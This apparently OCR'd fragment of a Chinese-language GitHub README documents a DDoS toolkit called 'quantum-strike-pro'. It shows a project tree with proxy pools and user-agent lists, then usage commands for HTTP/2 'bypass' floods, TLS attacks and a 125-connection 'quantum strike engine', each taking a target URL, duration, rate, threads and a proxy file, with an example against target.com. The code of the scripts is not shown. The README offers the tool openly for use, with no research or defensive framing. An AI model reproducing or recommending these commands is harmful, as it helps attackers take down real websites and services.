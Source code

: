 ```
│   │   ├── asia.txt     #    亚洲池 (30 IPs)
│   │   └── cn.txt       #    中国池 (30 IPs)
│   └── user-agents.txt  #    User-Agent 列表
│
├── package.json         # 📋 项目配置
├── build-release.js     # 🔨 发布构建工具
└── README.md            # 📖 本文档
```

---

## 🚀 快速开始

### 1. 环境要求

```bash
Node.js >= 20.19.5
npm >= 10.x
```

### 2. 安装依赖

```bash
# 克隆仓库
git clone https://github.com/DdosLiYunLong/quantum-strike-pro.git
cd quantum-strike-pro

# 安装依赖
npm install
```

### 3. 预览网站

```bash
# 启动本地服务器
./start-preview.sh

# 访问网站
# http://localhost:8000
```

### 4. 使用攻击脚本

```bash
# HTTP/2 绕过攻击
node scripts/http-attacks/http2-bypass.js <目标URL> <时长> <速率> <线程> <代理文件>

# 示例
node scripts/http-attacks/http2-bypass.js https://target.com 60 100 10 config/proxies/global.txt

# TLS 加密攻击
node scripts/tls-attacks/tls-attack.js <目标URL> <时长> <速率> <线程> <代理文件>

# 量子打击引擎（125 并发）
./scripts/premium-ddos/quantum-strike <目标URL> <代理文件> <时长>

# AI 协议分析器
./scripts/analyzer-tools/protocol-analyzer <目标URL>
```

---